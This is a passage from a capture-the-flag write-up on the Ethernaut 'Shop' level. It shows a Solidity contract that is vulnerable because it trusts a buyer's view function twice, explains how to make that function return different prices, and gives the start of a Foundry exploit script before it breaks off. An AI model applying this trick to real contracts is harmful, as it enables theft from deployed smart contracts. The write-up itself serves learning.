 To run script : 

```bash
$ source .env
$ forge script script/DenialSolve.s.sol:DenialSolve --rpc-url $RPC_URL --broadcast
```

# 21 Shop

`Shop.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

- Goal

1. Сan you get the item from the shop for less than the price asked?

- Solution

1. This is similar to the Elevator challenge. Elevator uses a an external normal function to call. 
2. But here `price()` should a view function. Which shouldn't modify the storage of the contract.
3. So, we cant just keep the number of the calls to the `price()` function in our Attack contract.
4. We can make use of `isSold` variable to check that the `price()` is called or not. This can be acceptable inside a view function. 
5. So, I wrote Attack contract with `price()` function defined as view and it returns two different price values for the initial call and second call. 

`ShopSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {Shop} from "../src/Shop.sol";

contract ShopSolve is Script{
    Shop public shop = Shop(0x45e7A13038eCA7cCfd53aC8C4F345A7bC2fCd2A2);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("is Sold : ", shop.isSold());

        new Attack().exploit();

        console.log("is Sold : ", shop.isSold());        
```